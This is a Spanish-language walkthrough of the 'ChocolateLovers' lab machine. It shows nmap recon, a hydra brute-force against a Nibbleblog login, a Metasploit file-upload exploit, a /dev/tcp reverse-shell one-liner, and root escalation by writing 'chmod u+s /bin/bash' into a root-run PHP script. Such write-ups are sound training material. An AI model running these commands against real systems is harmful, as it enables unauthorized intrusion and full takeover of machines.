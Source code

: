 - Tags: #ChocolateLovers
---
[Maquina ChocolateLovers](https://mega.nz/file/FbcgFS4J#_hcnLHn7jiXA-xlNkeXMRd92bJSaubMDeLIXZ-cMBrs) -> Enlace de descarga al laboratorio

```bash
7z x chocolatelovers.zip # Descomprimimos el archivo
sudo bash auto_deploy.sh chocolatelovers.tar # Desplegamos el laboratorio
```

### Fase Reconocimiento:
```bash
172.17.0.2 # Direccion ip del target
```

```bash
ping -c 1 172.17.0.2 # Lanzamos una traza ICMP para determinar si tenemos conectivida con el target
```

```bash
wichSystem.py 172.17.0.2 # Gracias al ttl determinamos que estamos ante una maquina linux
172.17.0.2 (ttl -> 64): Linux
```

### Fase Enumeracion Puertos y Servicios:
```bash
escanerTCP.py -t 172.17.0.2 -p 1-60000 # Realizamos deteccion de puertos mediante TCP
nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts # Realizamos deteccion de puertos con Nmap
```

```bash
extractPorts allPorts # Parseamos al informacion mas relevante de escaneo
nmap -sC -sV -p80 172.17.0.2 -oN targeted # Realizamos un escaneo exhaustivo para determinar el servicio y las versiones que corren detras de estos puertos
```

### Fase Enumeracion Web:
```bash
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu)) # Servicio web detectado: ( ubuntuFocal ) 
```

```bash
http://172.17.0.2 # Tenemos el inicio del servicio apache2, Mirando el codigo fuente vemos lo siguiente

<!-- /nibbleblog --> # En los comentario una posible ruta
```

```bash
http://172.17.0.2/nibbleblog/ # Tenemos un seccion como panel de administracion
http://172.17.0.2/nibbleblog/admin.php # Nos otorga una url para iniciar session
```

**Nota** -> Despues de intentar de todo tipo de inyecciones usaremos **hydra** para realizar un ataque **HTTP** por medio de **POST** al formulario.
Indicamos que no queremos ver esta respuesta ya que indica que las credenciales son invalidas: **( Incorrect username or password. )**
```bash
# Nos genera falsos positivos, Asi que descartamos este medio
hydra -L /usr/share/SecLists/Usernames/xato-net-10-million-usernames.txt -P /usr/share/wordlists/rockyou.txt 172.17.0.2 http-post-form "/nibbleblog/admin.php:user=^USER^&pass=^PASS^:Incorrect username or password" 
```

Despues de que nos bloquearan mediante una lista lengra regresamos al panel de inicio de sesion:
```bash
http://172.17.0.2/nibbleblog/admin.php
```

Probamos credenciales tipicas como:
```bash
root: root
administrator: administratro
admin: admin # Con esta credencial logramos acceder.
```

Revisando la version de este software en: **( settings )** contempla: **( [Nibbleblog 4.0.3 "Coffee"](http://nibbleblog.com) - Developed by Diego Najar )**

### Fase Explotacion:
```bash
searchsploit nibbleblog 4.0.3 # Buscamos un exploit para esa version

Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit) | php/remote/38489.rb # Tenemos este disponible.
```

```bash
msfconsole # Iniciamos metasploit
```

```bash
search Nibbleblog # Filtramos por el nombre
use exploit/multi/http/nibbleblog_file_upload # Especificamos que queremos usar este exploit
```

```bash
show options # Si revisamos tenemos que setear todos estos valores.

 Name       Current Setting  Required  Description
 ----       ---------------  --------  -----------
 PASSWORD                    yes       The password to authenticate with
 RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
 RPORT      80               yes       The target port (TCP)
 TARGETURI  /                yes       The base path to the web application
 USERNAME                    yes       The username to authenticate with
```

```bash
# Configuracion final
msf6 exploit(multi/http/nibbleblog_file_upload) > set USERNAME admin
USERNAME => admin
msf6 exploit(multi/http/nibbleblog_file_upload) > set PASSWORD admin
PASSWORD => admin
msf6 exploit(multi/http/nibbleblog_file_upload) > set RHOSTS 172.17.0.2
RHOSTS => 172.17.0.2
msf6 exploit(multi/http/nibbleblog_file_upload) > set TARGETURI /nibbleblog
TARGETURI => /nibbleblog
msf6 exploit(multi/http/nibbleblog_file_upload) > run # Con este indicamos que 
```

Nos reporta este mensaje;
```bash
[*] Started reverse TCP handler on 192.168.100.24:4444 
[-] Exploit aborted due to failure: unknown: Unable to upload payload.
[*] Exploit completed, but no session was created. # Se completo pero no se pudo iniciar la session.
```

Al parecer esta intentando abusar de un plugin de php: **( my_image )**
```bash
vprint_status("#{peer} - Preparing payload...")
    payload_name = "#{Rex::Text.rand_text_alpha_lower(10)}.php"

    data = Rex::MIME::Message.new
    data.add_part('my_image', nil, nil, 'form-data; name="plugin"')
    data.add_part('My image', nil, nil, 'form-data; name="title"')
```

```bash
http://172.17.0.2/nibbleblog/admin.php?controller=plugins&action=list # En el apartado de plugin del panel buscaremos por ( my_image )
```

Una ves instalado, el plguin correctamente procedemos a corren de nuevo el exploit para ver si logramos que se ejeucte correctamente.
```bash
[*] Started reverse TCP handler on 192.168.100.24:4444 
[*] Sending stage (40004 bytes) to 172.17.0.2
[+] Deleted image.php
[*] Meterpreter session 2 opened (192.168.100.24:4444 -> 172.17.0.2:40524) at 2025-05-27 21:01:49 +0000
```

```bash
shell # Ejecutamos este comando para obtener una shell y poder enviarnos una reserShell a nuestro equipo de atacante:\
```

```bash
nc -nlvp 443

bash -c "exec bash -i &>/dev/tcp/$IP/$PORT <&1" # Logramos obtener una sesion en el puerto que estamos en escucha
```

### Fase Escalada Privilegios:
```bash
</html/nibbleblog/content/private/plugins/my_image$ whoami

www-data # Tenemos una session como este usuario
```

```bash
ls -la # Listamos los archivos
db.xml # Este es el que nos permite la intrusion
```

```bash
chocolate # Tenemos este usuario en el sistema.
```

```bash
sudo -l

User www-data may run the following commands on 002a1bba86fd:
    (chocolate) NOPASSWD: /usr/bin/php # Tenemos una via potencial de escalar a este usuario.
```

```bash
sudo -u chocolate /usr/bin/php -r "system('/bin/bash');" # Obtenemos una shell como ( chocolate )
```

```bash
ps -faux # Listando los procesos del sistema encontramos que se esta ejecutando un script de php que pertenece a este usaurio.
-rw-r--r-- 1 chocolate chocolate 59 May  7  2024 /opt/script.php # Lo sobreescribiremos para inyectar un comando que otorgue privilegios SUID a la bash.
```

```bash
echo '<?php system("chmod u+s /bin/bash"); ?>' > /opt/script.php # Inyectamos esta instruccion php
```

```bash
ls -l /bin/bash # Listando los permisos ahora vemos que tiene privielgios SUID
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

```bash
bash -p # Nos lanzamos una bash con privilegios
```

```bash
bash-5.0# whoami
root # Ahora tenemos control total sobre el sistema.
```